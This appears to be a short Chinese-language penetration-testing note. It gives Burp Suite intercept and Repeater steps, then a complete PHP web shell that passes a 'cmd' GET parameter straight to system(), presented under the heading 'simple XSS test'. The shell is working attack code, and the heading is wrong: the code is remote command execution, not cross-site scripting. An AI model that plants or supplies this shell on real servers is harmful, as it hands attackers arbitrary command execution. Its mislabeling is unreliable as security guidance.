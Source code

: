 
## 滲透

打開 Proxy 監聽
按下送出後 會卡住網頁取得該 Request
接著在檔案上右鍵選擇 Send to Repeater
在 Repeater 頁面可以修改 Request 並送出

* 簡單測試 XSS

<form method="GET" action="">
    <input type="text" name="cmd" autofocus>
    <input type="submit" value="Execute">
</form>
<pre>
    <?php
        $cmd = 'system';
        $param = 'cmd';
        if (isset($_GET[$param])) {
            $cmd($_GET[$param]);
        }
    ?>
</pre>